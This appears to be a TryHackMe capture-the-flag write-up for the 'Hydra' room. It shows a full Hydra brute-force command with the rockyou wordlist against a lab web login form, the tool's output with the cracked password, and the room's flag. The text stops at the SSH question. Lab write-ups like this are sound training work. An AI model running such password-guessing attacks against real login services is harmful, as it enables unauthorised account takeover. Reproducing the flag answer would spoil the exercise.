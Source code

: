 ```yaml
---
title:  "TryHackMe | Hydra"
layout: post

---
```


### Use Hydra to bruteforce molly's web password. What is flag 1?

we navigate to the box ip address and is presented with a web login form

first use burpsuite to get the http-form-post format

```
username=myname&password=mypass
```

then type in a random password in the login form to get the error message

```
Your username or password is incorrect.
```

pass the above information to hydra to crack the password

```
kali@kali:~$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.109.118 -t 4 http-form-post "/login:username=^USER^&password=^PASS^:F=incorrect"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 01:22:10

[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking http-post-form://10.10.109.118:80/login:username=^USER^&password=^PASS^:F=incorrect
[80][http-post-form] host: 10.10.109.118   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 01:22:31

```

then login through the web from to retrieve the flag

```
THM{2673a7dd116de68e85c48ec0b1f2612e}
```

### Use Hydra to bruteforce molly's SSH password. What is flag 2?
